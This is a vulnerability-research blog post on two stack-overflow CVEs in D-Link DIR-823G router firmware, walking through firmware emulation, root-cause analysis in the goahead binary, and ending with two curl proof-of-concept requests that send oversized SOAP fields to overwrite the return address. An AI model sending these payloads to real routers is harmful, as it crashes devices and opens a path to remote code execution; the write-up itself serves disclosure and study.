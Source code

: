 ```yaml
---
title: "Dlink router CVEs"
classes: wide
header:
  teaser: /assets/images/vulnerability_research/CVE-2023-43241/crash.png
ribbon: DodgerBlue
description: "Detailed analysis of multiple CVES that can lead to RCE in Dlink routers via stack overflow"
categories:
  - vulnerability  research
toc: true
---
```


# Summery

A Deep dive into CVE-2023-43241 CVE-2023-43235 which are a stack overflow in D-Link DIR-823G v1.0.2B05 router firmware, going to discuss extracting and emulating firmware and root cause analysis.

# Description

- CVE: CVE-2023-43241 , CVE-2023-43235

- Title: stack overflows in "D-Link DIR-823G v1.0.2B05" router firmware

- Platform / Vendor: Dlink/ router  

- Summary: D-Link DIR-823G v1.0.2B05 was discovered to contain a stack overflow via parameter TXPower and GuardInt in SetWLanRadioSecurity, StartTime and EndTime in SetWifiDownSettings.

![Error](/assets/images/vulnerability_research/CVE-2023-43241/adv.png)

![Error](/assets/images/vulnerability_research/CVE-2023-43241/adv1.png)

# Background story

The firmware is an operating system customized for an embedded device just with the capabilities that the device needs, this is to minimize size and raise the performance and you can imagine what else can be an advantage of this customization, in a lot of cases the firmware is based on Linux kernel, this kernel is customized and but inside the device chip, to get this firmware we have to options...

- Use any communication port on the chip to extract the firmware.

- The firmware is publicly accessible on the internet.

and to run it we have also two options...

- Use any communication port on the chip to get a shell on the device

- Emulate the firmware in an Emulation Application

Most firmware is compiled to run on `MIPS` architecture which can't run directly on our `x86` architecture, also Vmware and virtualbox can't used for that as they can't translate architecture-specific OPcode to another one, the most famous emulator that can do that is `qemu` which is translating machine code from architicure to another.

# Environment Setup

There is a Linux distro called [Attify OS](https://www.attify.com/attifyos) which is made specifically for firmware and hardware hacking It contains most of the tools we will need to be installed and configured, definitely you can install only the tools only you need for analyzing this vulnerability but this way will save you a lot of time troubleshooting.

Our firmware is publically available on "Dlink" site [here](http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-823G) just download the version mentioned on the advisory and copy it to your investigation area.

![Error](/assets/images/vulnerability_research/CVE-2023-43241/download.png)

Then go to `Firmware-analysis-toolkit` folder and run the following command...

```sh
./fat.py "your firmware image"
```

![Error](/assets/images/vulnerability_research/CVE-2023-43241/fat.png)

This will result in extracting the firmware, giving you an Image ID (we will need it later), and creating a network interface(this is your Router IP remember it).

Now just by pressing enter the emulated hardware will start booting up, just give it a minute to finish the boot process and navigate to the IP address mentioned before.

![Error](/assets/images/vulnerability_research/CVE-2023-43241/wizard.png)

based on your preferred language use Google Translate for that, press skip, and log in with blank credentials. 

Now our Emulator is working perfectly fine, we need then to extract the file system to get the code and start looking for our vulnerability.

Go to "home/iot/tools/firmware-analysis-toolkit/firmadyne/scripts" and execute the script "mount.py" as root passing the Image ID mentioned before as a parameter.

![Error](/assets/images/vulnerability_research/CVE-2023-43241/mount.png)

Then navigate to "/home/iot/tools/firmware-analysis-toolkit/firmadyne/scratch/1/image" and you are inside your firmware's filesystem.

![Error](/assets/images/vulnerability_research/CVE-2023-43241/filesys.png)

# root cause analysis

`CVE-2023-43241`

The advisory description mentioned that the overflow is in TXPower and GuardInt parameters so we can search across the web interface files where they exist.

![Error](/assets/images/vulnerability_research/CVE-2023-43241/txpower.png)

we can see that this parameter gets assigned in "Advwireless.html" page as part of the "setting" object, then set to "SetWLanRadioSettings" SOAP action and sent to "http://purenetworks.com/HNAP1/" end point.

Attify OS had burpsuit setup so we can open it, configure the browser to proxy traffic throw it, and intercept the traffic out of "Advwireless.html" page.

![Error](/assets/images/vulnerability_research/CVE-2023-43241/proxy.png)

![Error](/assets/images/vulnerability_research/CVE-2023-43241/advwireless.png)

![Error](/assets/images/vulnerability_research/CVE-2023-43241/param.png)

Then this request gets handled by "goahead" binary 

![Error](/assets/images/vulnerability_research/CVE-2023-43241/go.png)

but how the request is handled is the cause of the problem.

![Error](/assets/images/vulnerability_research/CVE-2023-43241/tx.png)

It gets the data inside "TXPower" which is attacker-controlled then calculates its size which means it's also attacker-controlled then copies in a fixed size buffer whatever size of data the attacker supplies so we can overflow the buffer and corrupt the memory.

also for "GuardInt".

![Error](/assets/images/vulnerability_research/CVE-2023-43241/guard.png)

`CVE-2023-43235`

The same concept exactly applies to the StartTime and EndTime parameters.

![Error](/assets/images/vulnerability_research/CVE-2023-43241/time.png)

# Reproducing the vulnerability

*CVE-2023-43235*

################### video here #######################

we can see that we can overwrite the return address "ra"

![Error](/assets/images/vulnerability_research/CVE-2023-43241/crash.png)

*CVE-2023-43241*

################### video here ##########################

![Error](/assets/images/vulnerability_research/CVE-2023-43241/crash2.png)

# POC

*CVE-2023-43235*

```sh
curl http://192.168.0.1/HNAP1/ -H 'SOAPAction: "http://192.168.0.1/HNAP1/SetWLanRadioSecurity"' -d '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetWLanRadioSecurity xmlns="http://192.168.0.1/HNAP1/"><SetMultipleActions><SetWLanRadioSecurity><RadioID>1</RadioID><Radio>1</Radio><TXPower>######A100#####</TXPower><SSID>1</SSID><SSIDBroadcast>1</SSIDBroadcast><ChannelWidth>1</ChannelWidth><Key>1</Key><GuardInt>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaaa</GuardInt></SetWLanRadioSecurity></SetMultipleActions></SetWLanRadioSecurity></soap:Body></soap:Envelope>'
```

*CVE-2023-43241*
```sh
curl  "http://192.168.0.1/HNAP1/"  -H 'SOAPAction: "http://purenetworks.com/HNAP1/SetWifiDownSettings"' -H "Cookie: timeout=132" -d '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetWifiDownSettings xmlns="http://purenetworks.com/HNAP1/"><ControlMode>true</ControlMode><ControlRule><Enable>true</Enable><StartTime>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaaaaa</StartTime><EndTime>23:59:00</EndTime><Week>Mon,Wed</Week></ControlRule></SetWifiDownSettings></soap:Body></soap:Envelope>'
```

# References

[https://nvd.nist.gov/vuln/detail/CVE-2023-43241](https://nvd.nist.gov/vuln/detail/CVE-2023-43241)

[https://nvd.nist.gov/vuln/detail/CVE-2023-43235](https://nvd.nist.gov/vuln/detail/CVE-2023-43235)
